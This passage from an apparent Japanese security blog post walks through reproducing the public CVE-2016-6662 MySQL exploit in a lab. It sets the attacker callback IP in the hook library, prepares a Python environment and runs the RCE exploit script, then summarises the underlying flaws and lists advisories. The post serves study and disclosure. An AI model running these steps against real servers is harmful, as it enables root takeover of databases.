  * mysql_hookandroot_lib.cの攻撃者IPを書き換える

```
#define ATTACKERS_IP "192.168.10.103"
```

 * pythonの設定 

```
kosuke@attacker ~ $ pyenv install 2.7.11
kosuke@attacker ~ $ pyenv virtualenv 2.7.11 exploit
kosuke@attacker ~ $ git clone https://github.com/mysql/mysql-connector-python.git
kosuke@attacker ~ $ cd mysql-connector-python
kosuke@attacker ~ $ python ./setup.py build
kosuke@attacker ~ $ python ./setup.py install
```

### 攻撃の実施

```
python ./0ldSQL_MySQL_RCE_exploit.py -dbuser attacker -dbpass 'p0cpass!' -dbhost scapegoat.test -dbname pocdb -mycnf /etc/mysql/my.cnf
```

![CVE-2016-6662]({{site.baseurl}}/images/2016/09/14/CVE-2016-6662.gif)


## まとめ

複数の問題を利用してroot権限の奪取を可能にしている。

 * 2003年に修正されたはずのother permissionを付与しないファイルの新規作成
 * 2003年に修正されたはずのファイル内容の変更
 * FILE権限のみでSuper権限とTrigger権限が必要な操作の実行

さらに未公表のCVE-2016-6663にはFILE権限すら必要なく、mysqlの設定ファイルを任意に書き換えることができること示唆している。

## 情報源


 * [CERT](https://www.kb.cert.org/vuls/byid?query=CVE-2016-6662&searchview=)
 * [Debian](https://security-tracker.debian.org/tracker/CVE-2016-6662)
 * [Github](https://github.com/search?q="CVE-2016-6662")
 * [LWN](https://lwn.net/Search/DoSearch?words=CVE-2016-6662)
 * [NVD](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-6662)
 * [PacketStorm](https://packetstormsecurity.com/search/?q=CVE-2016-6662)
 * [Redhat](https://access.redhat.com/security/cve/CVE-2016-6662)
 * [Ubuntu](https://people.canonical.com/~ubuntu-security/cve/CVE-2016-6662.html)
 * [bugtraq](https://marc.info/?s=CVE-2016-6662&l=bugtraq)
 * [exploitdb](https://www.exploit-db.com/search/?action=search&cve=2016-6662)
 * [fulldisc](https://marc.info/?s=CVE-2016-6662&l=full-disclosure)
 * [metasploit](https://www.rapid7.com/db/search?q=CVE-2016-6662)
 * [oss-sec](https://marc.info/?s=CVE-2016-6662&l=oss-security)

## 参考文献
